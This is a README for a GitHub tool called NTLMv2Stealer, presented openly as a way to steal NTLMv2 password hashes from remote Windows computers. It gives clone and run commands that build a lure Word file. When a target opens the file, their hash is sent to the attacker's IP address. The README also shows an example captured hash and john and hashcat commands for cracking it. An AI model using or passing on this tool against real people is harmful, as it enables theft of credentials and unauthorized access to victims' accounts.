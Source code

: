 # NTLMv2Stealer
NTLMv2 hash stealer from remote windows computer

NTLM (NT LAN Manager) is a Microsoft security protocol that provides authentication, integrity, and confidentiality to users. It is typically used in Windows-based networks and is a challenge-response authentication protocol that uses a combination of a user's password and a system-generated challenge to create a unique cryptographic key for each session. NTLM is considered less secure than more modern protocols, such as Kerberos, and is being phased out by Microsoft in favor of other options.

## Installation & Usage
```sh
cd /opt && sudo git clone https://github.com/HamzMourid00/NTLMv2Stealer.git && cd NTLMv2Stealer && sudo chmod 777 NTLMv2Stealer
./NTLMv2Stealer 192.168.8.90 image.jpg word
```
After the target execute the word file you receive hashes in you session
## How to crack them

### Example
```
admin::N46iSNekpT:08ca45b7d7ea58ee:88dcbe4446168966a153a0064958dac6:5c7830315c7830310000000000000b45c67103d07d7b95acd12ffa11230e0000000052920b85f78d013c31cdb3b92f5d765c783030
```
### cracking
```
john --format=netntlmv2 hash.txt
hashcat -m 5600 -a 3 hash.txt
```
